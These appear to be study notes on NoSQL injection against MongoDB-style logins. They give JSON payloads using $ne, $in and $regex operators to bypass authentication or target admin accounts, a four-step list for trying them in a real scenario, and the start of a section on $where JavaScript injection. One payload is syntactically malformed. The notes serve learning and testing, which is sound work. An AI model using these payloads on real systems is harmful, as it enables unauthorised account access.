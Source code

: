 - Converting request method
- Change Content-Type to application/json
- Add JSON to message body
- Inject query operators in JSON

A vulnerable app may accept a username/password in a POST request:

```json
{"username":"wiener","password":"peter"}
```

Test each input with different operators - e.g. test the username input via:

```json
{"username":{"$ne":"invalid"},"password":{"peter"}}
```

If applied, it queries all users that are not the user of `invalid`. If both fields process operators, bypass authentication via:

```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

Query would return all login creds for all users that are not `invalid` user - i.e. logged in as the first user (often the admin). For targeting an account, use the following:

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

>[!info]
>This looks for where the username is either admin, administrator or superadmin and the password is not empty (i.e. any user submitted password).

As for exploiting in a real scenario:

1. Change the value of username to `{"$ne":"invalid"}` - check if it still logs you in
2. Change the value of username to `{"$regex":"wien.*"}` - check if it still logs you in
3. Set the username and password to `{"$ne":"invalid"}` - check for any error messages/responses that indicate multiple users were selected.
4. Change username to `{"$regex":"admin.*"}` and password to `{"$ne":""}` to attempt to login as admin
# Exploiting Syntax Injection to Extract Data

Some operators/functions can run limited JavaScript such as `$where` and `mapReduce()` function. If an app uses them, the database can evaluate JavaScript as part of the query.

As an example, there is a function to look up other registered usernames:

```html
https://insecure-website.com/user/lookup?username=admin
```

Resulting in:

```json
{"$where":"this.username == 'admin'"}
```
